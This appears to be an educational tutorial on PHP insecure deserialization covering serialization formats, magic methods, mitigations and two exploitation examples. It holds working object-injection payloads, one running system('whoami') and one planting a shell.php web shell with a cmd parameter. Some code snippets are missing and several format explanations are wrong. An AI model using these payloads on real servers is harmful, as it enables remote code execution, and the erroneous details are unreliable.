

# Insecure Deserialization

This is a vulnerability in which the attacker is able to manipulate the serialized object in order to change the web application flow, resulting in different outcomes such as RCE, directory traversal etc.

Data serializtion is used to represent an object or an array into a storable format which can be saved into a flat file, database etc.

## Impact

The impact can vary according to the application flow, in some cases the attacker is able to run arbitrary code on the hosting server, escalate his privilege or able to do a DOS attack against the application.

## Serialization basics



The above code snippet is an example for the serialization process in PHP. It creates user class with a name variable which will be assigned the value passed via the constructor (the constructor function will be called when the object is created)

Outside the user class, it creates an object, then it will echo the serialized format of that object.

The following is the output.
```
O:5:"user":1:{s:5:"name";s:6:"fraize";}
```
This output means the object’s class name will be of size 6 characters and the its name is user , after that it specifies the number of class variables which is one , and it will be a string type of 4 characters , variable name is name , its value is a string type of 6 characters and its name is `fraize` .

The following tables contains several serialization formats :

| Data Type | Serialization Format | Example |
|-----------|----------------------|---------|
Integer | i: | i:1
String | s:: | s:4:"User" 
Double | d: | d:10.512
Array | a::{keys,values} | a:2:{s:3:"key";s:5:"value";}
NULL | N | N
Object | O:::<size-of-properties>:{properties} | O:4:"user":1:{s:4:"name";s:6:"fraize";}

As from the previous code snippet it takes the serialized format and uses it as input for the unserialize function which will make the object live again.

And at the last line it will print the value of the name variable , which is fraize.

In PHP there are some functions called magic functions, those functions are called automatically at a specific event. 

All magic functions' names start with a double underscore.

| Function name | Description |
|---------------|-------------|
__construct() | This function will be called/executed when the object is created.
__destruct() | This will be called/executed when the object lifeis over or script ends.
__wakeup() | This will be called/executed after deserialization
__sleep() | This will be called/executed before deserialization

## Exploitation examples
1. **Example 1**


The above code is vulnerable, as you can see it takes parameter `r` from the user and will unserialize it.

In the demo class you can see that it uses a wakeup function which will be called/executed automatically after the deserialization.

The normal input is a serialized array, it can be something like this:
```
a:2:{i:0;s:4:"TEST";i:1;s:2:"hi";}
```
The output : 
```
TEST - hi
```
The attacker can exploit this code by sending the following serialized data :
```
O:4:"demo":1:{s:6:"inject";s:17:"system('whoami');";}
```
Which lead to RCE , and the output would be like : 
```
www-data
```

2. **Examples 2**


The above code snippet will deserialize the serialized data which is taken from the GET parameter `data`.

The `__destruct` function will be called after the code ends.

As you can see there is a function called `file_put_contents()` which takes two arguments file location and the data which will be placed into that file.

The problem here in this code is that if the file_put_contents() wasn’t able to find the file in the specified path, it will create a new one and insert the data into it.

So the attacker can send the following: 
```
O:9:"LogWriter":2:{s:7:"logfile";s:28:"/var/www/html/logs/shell.php";s:7:"logdata";s:32:"";}
```
The above data will create a php file inside the logs directory, and will insert a php code into it.

Then the attacker can go to that path (/logs/shell.php) and his code will be executed successfully.
```
this is my shell
```

To execute commands one can send:
```
<?php system ($_GET['cmd']); ?>
```
And easily you can send all your OS commands through the cmd parameter.

## Mitigation

- User-input must be sanitized/filtered before the deserialization of data .
- According to the  OWASP prevention cheat sheet , you can use json data instead if you need to pass serialized data to the user (via json_encode() and json_decode() ) .

## Tools
[https://portswigger.net/bappstore/24dab228311049d89a27a4d721e17ef7](https://portswigger.net/bappstore/24dab228311049d89a27a4d721e17ef7) burp suite extension which scans for php object injection vulnerabilities 

## Challenges
1. The dark lord
